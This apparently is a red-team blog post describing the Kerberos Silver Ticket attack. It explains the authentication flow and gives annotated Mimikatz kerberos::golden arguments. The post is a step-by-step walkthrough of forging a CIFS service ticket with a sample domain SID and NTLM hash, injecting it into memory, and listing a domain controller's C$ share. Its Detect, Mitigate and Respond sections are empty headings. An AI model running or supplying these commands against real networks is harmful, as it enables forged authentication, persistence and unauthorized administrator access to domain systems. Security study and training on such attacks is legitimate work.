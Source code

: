```yaml
---
title:  "Kerberos attacks 3-Silver Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 1-Silver Ticket"
categories:
  - Red-Teaming
toc: true
---
```


## Goal
Forge service ticket

## Silver Ticket
* Technique to maintain persistence in an already compromised domain
* A Silver Ticket is a forged Kerberos Ticket Granting Service (TGS) ticket
* A silver ticket attack involves compromising credentials and abusing the design of the Kerberos protocol. 
* A silver ticket only allows an attacker for forge ticket-granting service (TGS) tickets for specific services.
* TGS tickets are encrypted with the password hash for the service – therefore, if an adversary steals the hash for a service account they can mint TGS tickets for that service.
* A attacker can create a Silver Ticket by cracking a computer account password and using that to create a fake authentication ticket. Kerberos allows services to log in without double-checking that their token is actually valid, which attackers have exploited to create Silver Tickets.


## Kerberos Authentication Flow
  * 1-Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request
  * 2-KDC checks user information and creates TGT
  * 3-The TGT is encrypted, delivered to the user. Only the KRBTGT in the domain can open and read TGT data.
  * 4-The User presents the TGT to the DC when requesting a TGS ticket ,The DC opens the TGT & validates PAC checksum 
       --> If the DC can open the ticket & the checksum check out, TGT = valid. The data in the TGT is effectively copied to create the TGS ticket.
  * 5-The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user 
  * 6.The user connects to the server hosting the service & presents the TGS,The service opens the TGS ticket using its NTLM password hash.


## Silver Ticket Attacks Work 
Silver Ticket Attacks are post-exploitation attacks. That means that a threat actor must already have compromised a target system in the environment before they can generate a Kerberos Silver Ticket.

  * 1-gather information about the domain, such as the domain name and domain security identifier (SID)
  * 2-Obtain the DNS name under which the service principal name (SPN) for the targeted
  * 3-Use Mimikatz to obtain the local NTLM password (or password hash) for the Kerberos service running on the compromised system
  * 4-Use Mimikatz to forge a Kerberos TGS


## Argument
```
kerberos::golden     ##Name of the module (there is no Silver module) 
/User:Administrator  ##Username for which the TGT is generated 
/domain :karim.net   ## Domain Name 
/sid:S-1-5-21-750046758-1551849808-2392872301 ## SID of the domain 
/target : win10.karim.net ## Target machine
/service: cifs  The SPN name of service for which TGS is to be created 
/rc4:6f5b5acaf7433b3282ac22e21e62ff22  ## NTLM  hash of the service account.
/id:500 /groups:512    ## Optional User RID (default 500) and Group (default 513 512 520 518 519) 
/ptt    ##Injects the ticket in current PowerShell process, no  to save the ticket on disk 
/startoffset:0  (Optional)the start offset when the ticket is available (default 0)
/endin:600 ##Optional ticket lifetime (default is 10 years) . The default AD setting is 10 hours = 600 minutes
/renewmax:10080 ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
                
 ```
 

## group identifier
```
512 ##Domain Admins
513 ##Domain Users
518 ##Schema Admins
519 ##Enterprise Admins
520 ##Group Policy Creator Owners
```

Getting a user's SID
```
whoami /user
```
<img src="/img/silver/sid.PNG" alt="Getting-gz" width="800" height="150"> 

## Create the silver ticket
```
kerberos::golden /user:Administrator /domain:karim.net /rc4:de26cce0356891a4a020e7c4957afc72 /target:domainAD.karim.com /sid:S-1-5-21-750046758-1551849808-2392872301 /service:CIFS /id:500 /ptt
```

<img src="/img/silver/go.PNG" alt="Getting-gz" width="1000" height="200"> 

 
List current tickets
```
klist
```

<img src="/img/silver/klist.PNG" alt="Getting-gz" width="1000" height="200">


save in file
``` 
kerberos::golden /user:Administrator /domain:karim.net /rc4:de26cce0356891a4a020e7c4957afc72 /target:domainAD.karim.com /sid:S-1-5-21-750046758-1551849808-2392872301 /service:CIFS /id:500 
```

<img src="/img/silver/f1.PNG" alt="Getting-gz" width="1000" height="200"> 

Inject in memory using mimikatz 
```
kerberos::ptt  ticket.kirbi
```
  
<img src="/img/silver/f2.PNG" alt="Getting-gz" width="800" height="150"> 

## Access domain controller
```
dir \\domainAD.karim.net\c$
```
<img src="/img/silver/da.PNG" alt="Getting-gz" width="1000" height="200"> 

## Detect

## Mitigate

## Respond
